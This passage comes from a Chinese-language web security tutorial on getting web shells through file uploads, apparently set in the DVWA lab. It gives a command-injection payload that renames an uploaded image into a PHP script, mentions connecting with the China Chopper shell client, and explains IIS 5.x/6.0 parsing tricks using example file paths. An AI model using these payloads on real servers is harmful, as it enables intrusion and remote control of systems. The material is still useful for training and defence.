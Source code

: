 用到的命令:127.0.0.1 |&| mv /var/www/html/hackable/uploads/xxxx.png /var/www/html/hackable/uploads/xxxx.php  将文件xxxx.jpg改名为xxxx.php
这个时候文件xxxx.jpg成功为我们改名为xxxx.php
访问url：http://172.16.12.2/hackable/uploads/xxxx.php
脚本成功运行
继续上菜刀连接之

## 5.解析漏洞

参考连接：https://www.secpulse.com/archives/3750.html

### 5.1 IIS 5.x/6.0解析漏洞

IIS 6.0解析利用方法有两种

1.目录解析

```
/xx.asp/xx.jpg
```

2.文件解析

```
sp.asp;.jpg
```

第一种，在网站下建立文件夹的名字为 *.asp、*.asa 的文件夹，其目录内的任何扩展名的文件都被IIS当作asp文件来解析并执行。

例如创建目录 sp.asp，那么

```
/sp.asp/1.jpg
```

 

将被当作asp文件来执行。假设黑阔可以控制上传文件夹路径,就可以不管你上传后你的图片改不改名都能拿shell了。

第二种，在IIS6.0下，分号后面的不被解析，也就是说

```
sp.asp;.jpg
```

 

会被服务器看成是sp.asp

还有IIS6.0 默认的可执行文件除了asp还包含这三种

```
/sp.asa
/sp.cer
/sp.cdx
```

 

### 5.2 IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞


